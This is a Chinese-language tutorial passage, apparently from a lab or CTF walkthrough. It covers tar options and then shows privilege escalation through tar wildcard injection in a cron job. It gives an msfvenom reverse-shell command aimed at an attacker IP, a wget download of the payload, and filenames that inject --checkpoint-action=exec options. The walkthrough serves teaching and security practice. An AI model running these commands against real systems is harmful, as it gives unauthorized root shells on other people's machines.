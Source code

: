 ```shell
--hard-dereference  //打包硬链接
--exclude   //在打包的时候写入需要排除的文件或目录

//常用打包与压缩组合
czf     //打包成tar.gz格式
cjf     //打包成tar.bz格式
cJf     //打包成tar.xz格式

zxf     //解压tar.gz格式
jxf     //解压tar.bz格式
xf      //自动选择解压模式
tf      //查看压缩包内容

//以gzip归档方式打包并压缩
tar czf  test.tar.gz  test/ test2/

//以bz2方式打包并压缩 
tar cjf  test.tar.bz2 dir.txt dir/
```

查看 GTFOBins 页面中的 tar（https://gtfobins.github.io/gtfobins/tar/），tar命令也可用于sudo提权。

注意：tar 具有命令行选项且具有检查点特性（checkpoint），我们可以利用tar的特性从而让tar命令将文件名识别为命令行。

在攻击机上使用 msfvenom生成一个反向 shell ELF 二进制文件，修改 LHOST IP 地址:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.14.30.69 LPORT=4444 -f elf -o shell.elf
```

将 shell.elf 文件传输到目标机的/home/user/目录下(你可以使用 scp 或者在 Kali机上的 webserver 上托管shell.elf文件，并在目标机上使用 wget获取)。

```shell
#攻击机
python3 -m http.server 8000
#目标机（攻击机上的ssh界面）
cd /home/user/
wget 10.14.30.69:8000/shell.elf
```

确保文件是可执行的:

```shell
chmod +x /home/user/shell.elf
```

在/home/user 中创建这两个文件:

```shell
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
#--checkpoint=n：每写入n个记录之后设置一个检查点，在检查点可以执行任意的操作，操作由--checkpoint-action指定
#exec：执行外部命令或运行可执行文件
```

当 cron 作业中的 tar 命令运行时，通配符(\*)将扩展为包含上面两个文件（因为它们都在/home/user中），由于它们的文件名是有效的 tar 命令行选项，tar 将识别它们，并将它们视为命令行选项而不是文件名。

